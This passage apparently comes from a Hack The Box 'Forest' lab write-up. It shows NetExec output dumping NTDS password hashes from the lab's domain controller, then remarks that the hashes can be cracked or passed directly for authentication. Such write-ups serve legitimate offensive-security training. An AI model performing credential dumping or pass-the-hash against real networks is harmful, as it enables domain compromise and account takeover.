 ```shell
SMB         10.129.59.175   445    FOREST           htb.local\HealthMailboxc0a90c9:1136:aad3b435b51404eeaad3b435b51404ee:3b4ca7bcda9485fa39616888b9d43f05:::
SMB         10.129.59.175   445    FOREST           htb.local\HealthMailbox670628e:1137:aad3b435b51404eeaad3b435b51404ee:e364467872c4b4d1aad555a9e62bc88a:::
SMB         10.129.59.175   445    FOREST           htb.local\HealthMailbox968e74d:1138:aad3b435b51404eeaad3b435b51404ee:ca4f125b226a0adb0a4b1b39b7cd63a9:::
SMB         10.129.59.175   445    FOREST           htb.local\HealthMailbox6ded678:1139:aad3b435b51404eeaad3b435b51404ee:c5b934f77c3424195ed0adfaae47f555:::
SMB         10.129.59.175   445    FOREST           htb.local\HealthMailbox83d6781:1140:aad3b435b51404eeaad3b435b51404ee:9e8b2242038d28f141cc47ef932ccdf5:::
SMB         10.129.59.175   445    FOREST           htb.local\HealthMailboxfd87238:1141:aad3b435b51404eeaad3b435b51404ee:f2fa616eae0d0546fc43b768f7c9eeff:::
SMB         10.129.59.175   445    FOREST           htb.local\HealthMailboxb01ac64:1142:aad3b435b51404eeaad3b435b51404ee:0d17cfde47abc8cc3c58dc2154657203:::
SMB         10.129.59.175   445    FOREST           htb.local\HealthMailbox7108a4e:1143:aad3b435b51404eeaad3b435b51404ee:d7baeec71c5108ff181eb9ba9b60c355:::
SMB         10.129.59.175   445    FOREST           htb.local\HealthMailbox0659cc1:1144:aad3b435b51404eeaad3b435b51404ee:900a4884e1ed00dd6e36872859c03536:::
SMB         10.129.59.175   445    FOREST           htb.local\sebastien:1145:aad3b435b51404eeaad3b435b51404ee:96246d980e3a8ceacbf9069173fa06fc:::
SMB         10.129.59.175   445    FOREST           htb.local\lucinda:1146:aad3b435b51404eeaad3b435b51404ee:4c2af4b2cd8a15b1ebd0ef6c58b879c3:::
SMB         10.129.59.175   445    FOREST           htb.local\svc-alfresco:1147:aad3b435b51404eeaad3b435b51404ee:9248997e4ef68ca2bb47ae4e6f128668:::
SMB         10.129.59.175   445    FOREST           htb.local\andy:1150:aad3b435b51404eeaad3b435b51404ee:29dfccaf39618ff101de5165b19d524b:::
SMB         10.129.59.175   445    FOREST           htb.local\mark:1151:aad3b435b51404eeaad3b435b51404ee:9e63ebcb217bf3c6b27056fdcb6150f7:::
SMB         10.129.59.175   445    FOREST           htb.local\santi:1152:aad3b435b51404eeaad3b435b51404ee:483d4c70248510d8e0acb6066cd89072:::
SMB         10.129.59.175   445    FOREST           tony:10101:aad3b435b51404eeaad3b435b51404ee:58c2874c21fae31a4163a43b6efdcbf5:::
SMB         10.129.59.175   445    FOREST           FOREST$:1000:aad3b435b51404eeaad3b435b51404ee:244315f922bbed1cddfd1c0ae3a350cf:::
SMB         10.129.59.175   445    FOREST           EXCH01$:1103:aad3b435b51404eeaad3b435b51404ee:050105bb043f5b8ffc3a9fa99b5ef7c1:::
SMB         10.129.59.175   445    FOREST           [+] Dumped 34 NTDS hashes to /home/frodo/.nxc/logs/FOREST_10.129.59.175_2024-12-04_134848.ntds of which 31 were added to the database
SMB         10.129.59.175   445    FOREST           [*] To extract only enabled accounts from the output file, run the following command: 
SMB         10.129.59.175   445    FOREST           [*] cat /home/frodo/.nxc/logs/FOREST_10.129.59.175_2024-12-04_134848.ntds | grep -iv disabled | cut -d ':' -f1
SMB         10.129.59.175   445    FOREST           [*] grep -iv disabled /home/frodo/.nxc/logs/FOREST_10.129.59.175_2024-12-04_134848.ntds | cut -d ':' -f1
```

We have successfully dumped all the hashes from the Active Directory database. Now, we can either attempt to crack these hashes offline or use the hashes themselves to log in to the domain controller.

> Cracking the hashes is not always necessary. In some cases, you can directly use the hashes for authentication.  
{: .prompt-info }
